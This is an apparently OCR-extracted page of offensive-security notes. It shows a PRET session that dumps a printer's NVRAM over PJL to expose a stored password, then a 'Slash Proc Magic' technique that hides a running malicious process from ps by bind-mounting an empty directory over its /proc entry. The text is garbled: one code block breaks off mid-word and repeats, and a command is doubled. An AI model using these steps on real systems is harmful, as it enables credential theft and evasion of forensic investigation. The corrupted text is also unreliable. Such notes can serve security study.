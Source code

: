 You can dump the NVRAM and extract confidential info (as passwords) by accessing arbitrary addresses using PJL:

```
# Using PRET
./pret.py -q printer pjl
Connection to printer established

Welcome to the pret shell. Type help or ? to list commands.
printer:/> nvram dump
Writing copy to nvram/printer
................................................................................
................................................................................
............................................S3cretPassw0rd......................
................................................................................
```

## Slash Proc Magic

Victim Host:

```sh
./MALICIOUS &
```

Using a process listing with ps, we can easily find the process, which would probably be noticed relatively quickly in a forensic investigation:

```sh
ps aux | grep MALICIOUS
root     22665  0.1  0.3 709792  5520 [..] ./MALICIOUS
root     22710  0.0  0.0 112808   968 [..] grep --color=auto M```sh
./MALICIOUS &
```

Using a process listing with ps, we can easily find the process, which would probably be noticed relatively quickly in a forensic investigation:

```sh
ps aux ps aux | grep MALICIOUS
root     22665  0.1  0.3 709792  5520 [..] ./MALICIOUS
root     22710  0.0  0.0 112808   968 [..] grep --color=auto MALICIOUS
```

Creating the bind mount:

```sh
# This command creates a directory named spoof with a subdirectory fd
mkdir -p spoof/fd;
# This command mounts the spoof directory onto the /proc/[pid] directory. By doing this, it tricks the system into displaying the contents of the spoof directory when someone accesses the /proc/[pid] directory. By someone, we mean, for example, a tool like ps that relies heavily on the /proc/ directory to generate output (see the section strace (ps deep-dive), where we examine how the ps command works and why we can hide our binary in this simple way
mount -o bind spoof /proc/22665;
```
